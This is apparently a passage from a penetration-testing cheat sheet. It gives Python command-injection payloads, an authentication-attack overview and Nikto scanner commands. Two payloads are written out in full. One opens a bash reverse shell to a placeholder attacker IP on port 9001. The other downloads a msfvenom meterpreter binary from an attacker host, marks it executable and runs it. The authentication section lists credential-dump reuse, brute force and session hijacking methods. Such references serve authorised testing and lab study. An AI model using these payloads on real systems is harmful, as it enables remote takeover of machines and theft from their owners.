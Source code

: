 ```
__import__('os').system("bash -c 'bash -i >& /dev/tcp/<Your IP>/9001 0>&1'")#
```

\[2] The below payload returns a meterpreter shell using `revsh` which can be generated using msfvenom with `-f elf`

```
__import__(‘os’).system(‘curl -o revsh [http://<ATTACKER_IP>/revsh](http://ip:port/revsh) && chmod 777 revsh && ./revsh’)#
```

#### Exploiting Authentication Vulnerabilities

Exploiting authentication vulnerabilities aims at grabbing the password(s) of the targeted user(s). This can be done via several methods:

* Social Engineering
* MITM attacks
* Obtaining a dump of passwords from previously compromised sites and assuming that a significant proportion of users reuse their passwords from that site on other sites.
* Credential brute force and dictionary attacks.
* Attempting default passwords.
* Session Hijacking: the attacker steals the cookie of the user in order to authenticate to their account without the need for a password.
* Session fixation attacks are a variant of session hijacking attacks that exploit applications that choose to reuse the same session ID across user sessions instead of expiring it after each session.

### Automated web application scanners

#### Nikto

Nikto is a web application scanner that crawls to the target site looking for security misconfigurations and vulnerabilities based on a database of signatures and plugins

**Scanning a website for vulnerabilities**

```
nikto -h [target-ip or domain]
```

\[-h] is used to define a target host.

**Scanning for vulnerabilities and disabling ssl**

This option is useful for sites that don't force secure transport to \[https]

```
nikto -h [target-ip or domain] -nossl
```

**Scanning for vulnerabilities with ssl**

This option should be used if the site forces transport using TLS/SSL

```
nikto -h [target-ip or domain] -ssl
```
